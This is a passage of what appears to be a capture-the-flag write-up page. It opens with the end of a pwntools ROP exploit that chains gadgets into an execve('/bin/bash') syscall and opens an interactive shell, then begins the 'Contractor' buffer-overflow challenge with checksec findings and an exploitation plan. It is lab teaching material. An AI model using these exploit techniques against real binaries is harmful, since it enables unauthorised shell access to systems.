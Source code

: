 # Spawn a shell
stack += p64(0x0000000000401d6c) # pop rdi; ret
stack += p64(0x40d000)  # Pointer to "/bin/bash"
stack += p64(0x0000000000401139) # pop rdx; ret
stack += p64(0x40d010)  # Null pointer for argv
stack += p64(0x0000000000401001) # pop rax; ret
stack += p64(0x3b)  # execve syscall number
stack += p64(0x000000000040566b) # pop rsi; ret
stack += p64(0x40d010)  # Null pointer for envp
stack += b'QK@\x00\x00\x00\x00\x00'  # syscall

# Send payload
io.send(stack)
io.sendline(b"/bin/bash\x00\x00\x00\x00\x00\x00\x00" + p64(0x40d000) + b"\x00"*50)

# Interact with the shell
io.interactive()</code></pre>
            </div>
        </div>
    </section>
</section>



<section id="back">
    <section id="blueback" class="container">
        <div id="contractor" class="challenge-section">
            <div class="section-content">
                <b>Name:</b> <span class="text"> Contractor </span><br>
                <b>Category:</b> Binary Exploitation <br>
                <b>Difficulty:</b> Medium <br>
                <p>
                   <br> This challenge presents a binary vulnerable to **stack-based buffer overflow**. The objective is to exploit an **out-of-bounds write** to modify a function pointer and hijack execution flow to gain a shell.
                </p>
            </div>
            <div class="section-content">
                <h2>Initial Analysis</h2>
                <h5>Checksec Findings</h5>
                <pre><code class="language-bash">checksec --file=contractor</code></pre>
                <h3>Security Features</h3>
                <ul>
                    <li><b><code>Full RELRO</code>:</b> No GOT overwrite possible.</li>
                    <li><b><code>Canary Found</code>:</b> Stack protection is enabled.</li>
                    <li><b><code>NX enabled</code>:</b> No shellcode execution on the stack.</li>
                    <li><b><code>PIE enabled</code>:</b> ASLR is in place.</li>
                </ul>
                <pre><code class="language-bash">RELRO           STACK CANARY      NX            PIE             
Full RELRO      Canary found      NX enabled    PIE enabled</code></pre>
            </div>
            <div class="section-content">
                <h3>Exploitation Plan:</h3>
                <ol>
                    <li><b>Leak Binary Address:</b> Overflow "reason to join" to retrieve a stack leak.</li>
                    <li><b>Modify Specialty Pointer:</b> Overflow "specialty" input to redirect execution.</li>
                    <li><b>Hijack Execution Flow:</b> Redirect execution to `contract()` to spawn a shell.</li>
                    <li><b>Brute-force Execution:</b> Since ASLR is enabled, multiple attempts improve success rate.</li>
                </ol>
            </div>